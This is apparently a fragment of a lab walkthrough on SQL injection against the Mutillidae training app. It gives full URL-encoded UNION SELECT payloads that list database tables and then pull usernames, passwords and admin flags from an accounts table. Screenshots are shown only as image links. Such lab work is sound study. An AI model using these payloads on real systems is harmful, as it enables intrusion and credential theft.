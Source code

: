 http://192.168.181.198/mutillidae/index.php?page=user-info.php&username=viofer%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

OUTPUT :
![Alt text](img/16.png)
The column names of the accounts is displayed below for the following url:

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.181.198/mutillidae/index.php?page=user-info.php&username=viofer%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

OUTPUT :

![Alt text](img/18.png)
OUTPUT :
